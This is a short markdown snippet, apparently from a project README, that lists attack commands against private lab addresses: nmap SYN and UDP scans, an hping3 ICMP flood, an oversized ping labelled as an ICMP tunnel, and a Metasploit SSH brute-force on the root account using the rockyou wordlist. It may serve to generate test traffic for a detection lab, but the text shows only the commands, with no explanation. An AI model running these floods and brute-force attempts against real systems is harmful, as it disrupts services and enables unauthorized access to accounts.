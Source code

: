 NMAP TCP SYN Scan :
```bash
nmap -sS 192.168.100.10
```

NMAP UDP Scan :
```bash
nmap -sU 192.168.100.10
```

ICMP Flood :
```bash
sudo hping3 -1 --flood 192.168.100.10
```

Tunnel ICMP :
```bash
ping -s 2000 192.168.100.10   
```

SSH bruteforce :
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.100.12
set USERNAME root
set PASSWORD /usr/share/wordlists/rockyou.txt
run
```
